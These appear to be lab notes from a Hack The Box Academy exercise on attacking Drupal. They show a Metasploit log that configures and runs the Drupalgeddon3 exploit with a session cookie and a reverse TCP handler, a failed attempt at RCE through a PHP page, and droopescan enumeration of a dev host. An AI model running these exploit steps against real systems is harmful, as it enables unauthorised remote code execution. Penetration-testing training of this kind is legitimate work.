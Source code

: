 [msf](Jobs:0 Agents:0) >> search 44557
[-] No results from search
[msf](Jobs:0 Agents:0) >> updatedb
[*] exec: updatedb

/usr/bin/find: '/home/htb-ac-786011/.cache/doc': Permission denied
[msf](Jobs:0 Agents:0) >> 

[msf](Jobs:0 Agents:0) >> reload_all

[msf](Jobs:0 Agents:0) >> search 44557

Matching Modules
================

   #  Name                       Disclosure Date  Rank       Check  Description
   -  ----                       ---------------  ----       -----  -----------
   0  exploit/php/webapps/44557  2018-04-29       excellent  No     Drupalgeddon3


Interact with a module by name or index. For example info 0, use 0 or use exploit/php/webapps/44557

use 0
set rhosts 10.129.142.40
set VHOST drupal-qa.inlanefreight.local
set drupal_session SESS7480629f2a60f8ea10a4824d0c05b9ed=1IWySveI9e3uN7q-k6xK2Zx6JJO8EYuiTIn1CVPQjps
set DRUPAL_NODE 1
set LHOST 10.10.15.142
show options 
exploit

[*] Started reverse TCP handler on 10.10.15.142:4444 
[*] Token Form -> Sg7iwAOpw2BvxzZeJkABgPx7YhgKBXtnV6U5ys6BZkA
[*] Token Form_build_id -> form-UW9HNdZZb-tqSZWqrW24TU_7kU0BtN2_P4GonZatfHw
[*] Exploit completed, but no session was created.


### RCE through PHP page

http://drupal-qa.inlanefreight.local/#overlay=admin/modules

--> Failed no PHP type of basic page

### drupal-dev.inlanefreight.local

IP=10.129.189.125
printf "%s\t%s\n\n" "$IP" "drupal.inlanefreight.local drupal-qa.inlanefreight.local drupal-dev.inlanefreight.local" | sudo tee -a /etc/hosts

sudo pip3 install droopescan
droopescan scan drupal -u drupal-dev.inlanefreight.local

[+] No plugins found.                                                           

[+] No themes found.

